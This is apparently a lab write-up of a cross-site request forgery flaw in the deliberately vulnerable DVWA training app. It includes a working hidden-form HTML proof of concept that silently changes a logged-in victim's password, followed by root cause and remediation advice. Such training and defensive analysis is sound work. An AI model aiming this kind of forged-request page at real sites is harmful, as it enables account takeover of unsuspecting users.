

## Overview

- **Application:** DVWA (Damn Vulnerable Web Application)
- **Vulnerability:** Cross-Site Request Forgery (CSRF)
- **Location:** /vulnerabilities/csrf/
- **Severity:** High
- **CVSS Score:** 8.8 (AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N)


##  Description

A Cross-Site Request Forgery (CSRF) vulnerability exists in DVWA where sensitive actions (such as password change) can be performed without verifying the authenticity of the request.

An attacker can trick a logged-in user into executing unwanted actions via crafted requests.


##  Affected Endpoint

http://localhost/dvwa/vulnerabilities/csrf/


## Proof of Concept (PoC)

### Step 1 — Identify Request

Password change request:

```http
GET /dvwa/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change HTTP/1.1
```


### 🔹 Step 2 — Create Malicious HTML

```html
<html>
  <body>
    <form action="http://localhost/dvwa/vulnerabilities/csrf/" method="GET">
      <input type="hidden" name="password_new" value="hacked123">
      <input type="hidden" name="password_conf" value="hacked123">
      <input type="hidden" name="Change" value="Change">
      <input type="submit" value="Click me">
    </form>
  </body>
</html>
```


### Step 3 — Exploitation

- Victim logs into DVWA
- Victim opens malicious page
- Password is changed without consent




## Impact

- Unauthorized account changes
- Password reset attacks
- Account takeover


##  Root Cause

- No CSRF token validation
- No request origin verification
- Sensitive action via GET request


##  Remediation

### Use CSRF Tokens
- Generate unique token per session/request
- Validate token server-side

### Use POST instead of GET
- Avoid sensitive actions via GET

### SameSite Cookies
- Set `SameSite=Strict` or `Lax`

### Verify Origin/Referer Header


##  Exploitation Flow

1. Identify sensitive action
2. Capture request
3. Recreate request in HTML form
4. Trick victim to execute
5. Action performed without consent


##  Tools Used

- Browser
- Burp Suite


##  Risk Rating

| Metric        | Value |
|--------------|--------|
| Severity     | High |
| Exploitability | Easy |
| Impact       | High |


## References

- OWASP Top 10 — A01: Broken Access Control
- https://owasp.org/www-community/attacks/csrf


## Conclusion

The application is vulnerable to CSRF due to lack of anti-CSRF protections. Attackers can perform unauthorized actions on behalf of authenticated users.


